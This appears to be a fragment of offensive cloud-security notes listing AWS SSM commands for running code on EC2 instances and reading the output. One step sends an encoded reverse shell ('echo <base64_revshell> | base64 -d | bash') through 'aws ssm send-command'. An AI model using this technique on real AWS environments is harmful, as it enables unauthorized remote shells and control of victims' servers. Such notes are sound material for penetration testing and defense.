 - `aws ssm list-documents`: List documents
- `aws ssm send-command --document-name <name> --instance-ids <ec2_instance_id> --parameters '{"commands": ["echo <base64_revshell> | base64 -d | bash"]}' --output text`: Send command to EC2 instance
    - We note the `CommandId`
    - After, we list all commands: `aws ssm list-commands`, and we can see the status of our command (e.g. `Success`)
    - We can see the command output via `aws ssm get-command-invocation --command-id <command-id> --instance-id <instance-id>`
        - Alternatively, we can also run `aws ssm list-command-invocations --command-id <command-id> --instance-id <instance-id> --details`
    